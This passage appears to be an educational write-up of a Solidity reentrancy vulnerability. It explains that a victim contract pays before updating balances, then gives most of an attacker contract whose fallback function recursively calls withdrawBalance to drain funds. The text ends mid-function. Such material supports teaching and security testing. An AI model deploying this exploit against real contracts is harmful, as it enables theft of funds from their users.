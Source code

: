 ## Vulnerability explanation

Whenever the victim's `withdrawBalance` is called, the contract _first_ performs the payment, and _then_ updates the internal balance.
However, since the destination of the payment can also be a contract itself, a malicious contract can use its fallback function (which will be triggered upon receiving any funds) to call the `withdrawBalance` function again

## Full exploit

This is the malicious contract:
```js
pragma solidity ^0.5.0;

import "hardhat/console.sol";

contract IVictim {

    function addToBalance() public payable;

    function withdrawBalance() public;
    function withdrawBalance_fixed() public;
    function withdrawBalance_fixed_2() public;
}

contract Attacker {

    IVictim victim_contract;
    int recursion_limit = 1;
    address payable owner;

    constructor (address victim_addr) public {

        victim_contract = IVictim (victim_addr);
        owner = msg.sender;
    }

    function addBooty () public payable {

        victim_contract.addToBalance.value (msg.value)();
    }

    function attack (int limit) public {

        recursion_limit = limit;

        console.log ("[Reentrancy-Attacker] started attack() with limit: ");
        console.logInt (limit);

        victim_contract.withdrawBalance ();
    }


    function () external payable {

        console.log ("[Reentrancy-Attacker] fallback. Current recursion_limit:");
        console.logInt (recursion_limit);

        if (recursion_limit > 0) {

            recursion_limit -= 1;
                console.log ("[Reentrancy-Attacker] calling the victim again...");
            victim_contract.withdrawBalance ();
```